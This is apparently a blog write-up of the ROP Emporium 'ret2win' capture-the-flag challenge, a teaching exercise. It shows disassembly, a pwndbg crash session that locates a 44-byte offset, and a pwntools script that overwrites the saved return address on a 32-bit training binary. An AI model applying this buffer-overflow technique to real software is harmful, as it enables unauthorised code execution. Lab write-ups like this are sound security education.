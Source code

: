 ```yaml
---
title: "ret2win [ROP Emporium]"
date: 2018-05-20 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/FJ8LnvR.png"
tags:
  - ROPEmporium
  - ROP
excerpt: "Writeup for ret2win, problems in the ROP Emporium Problem Set"
---
```

Here's the [problem link](https://ropemporium.com/challenge/ret2win.html).  
Here are the provided binaries:
[32bit](/assets/write-ups/ropemporium/ret2win/ret2win32), [64bit](/assets/write-ups/ropemporium/ret2win/ret2win)



```
Locate a method within the binary that you want to call and do so by
overwriting a saved return address on the stack.
```

Seems pretty easy.  
Since this chal is pretty straightforward, let's
start with the 32 bit one.
`objdump` tells us there is a `ret2win` function:

```nasm
080485f6 <pwnme>:
 80485f6:       55                      push   ebp
 80485f7:       89 e5                   mov    ebp,esp
 80485f9:       83 ec 28                sub    esp,0x28
 80485fc:       83 ec 04                sub    esp,0x4
                            ...
 8048653:       83 c4 10                add    esp,0x10
 8048656:       90                      nop
 8048657:       c9                      leave
 8048658:       c3                      ret

08048659 <ret2win>:
 8048659:       55                      push   ebp
 804865a:       89 e5                   mov    ebp,esp
 804865c:       83 ec 08                sub    esp,0x8
 804865f:       83 ec 0c                sub    esp,0xc
 8048662:       68 24 88 04 08          push   0x8048824
 8048667:       e8 94 fd ff ff          call   8048400 <printf@plt>
 804866c:       83 c4 10                add    esp,0x10
 804866f:       83 ec 0c                sub    esp,0xc
 8048672:       68 41 88 04 08          push   0x8048841
 8048677:       e8 b4 fd ff ff          call   8048430 <system@plt>
 804867c:       83 c4 10                add    esp,0x10
 804867f:       90                      nop
 8048680:       c9                      leave
 8048681:       c3                      ret
```

This is basically a `cat flag.txt` which needs to be jumped to.  
Let's run this:
```console
$ ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

>
```

Let's do it:

<!--![](/assets/write-ups/ropemporium/ret2win/pwndbg.png)-->

```nasm
$ pwndbg ./ret2win32
Reading symbols from ./ret2win32...(no debugging symbols found)...done.
pwndbg: loaded 177 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/kunal/Documents/CTF/ROPEMporiumAgain/ret2win/32bit/ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────
 EAX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EBX  0x0
 ECX  0xf7f8889c ◂— 0x0
 EDX  0xffffc8e0 ◂— 0x61616161 ('aaaa')
 EDI  0xf7f87000 ◂— 0x1d9d6c
 ESI  0xf7f87000 ◂— 0x1d9d6c
 EBP  0x6161616b ('kaaa')
 ESP  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
 EIP  0x6161616c ('laaa')
──────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x6161616c






───────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ esp  0xffffc910 —▸ 0xf7fe006d ◂— jge    0xf7fe0077
01:0004│      0xffffc914 —▸ 0xffffc930 ◂— 0x1
02:0008│      0xffffc918 ◂— 0x0
03:000c│      0xffffc91c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
04:0010│      0xffffc920 —▸ 0xf7f87000 ◂— 0x1d9d6c
... ↓
06:0018│      0xffffc928 ◂— 0x0
07:001c│      0xffffc92c —▸ 0xf7dc7b41 (__libc_start_main+241) ◂— add    esp, 0x10
─────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────
 ► f 0 6161616c
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg>

```

Find the offset to overwrite the saved `eip`:

```console
cyclic -l 0x6161616c
44
```

And write the corresponding address of our `ret2win` function (`0x08048659`) after the 44 byte padding:

```python
from pwn import *
context.update(arch='i386', os='linux')

binary = './ret2win32'
elf = ELF(binary)

win = elf.functions['ret2win'].address


with open('solve.txt', 'w') as f:
    f.write(cyclic(44))
    f.write(p32(win))

# p = process(binary)
# p.send(cyclic(44) + p32(win))
# p.interactive()
```

And finally get the flag:

```console
$ ./ret2win32 < solve.txt
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
zsh: segmentation fault (core dumped)  ./ret2win32 < solve.txt
```

The 64bit version can be easily solved by simply changing the padding to
`40` and updating the `ret2win`'s address.
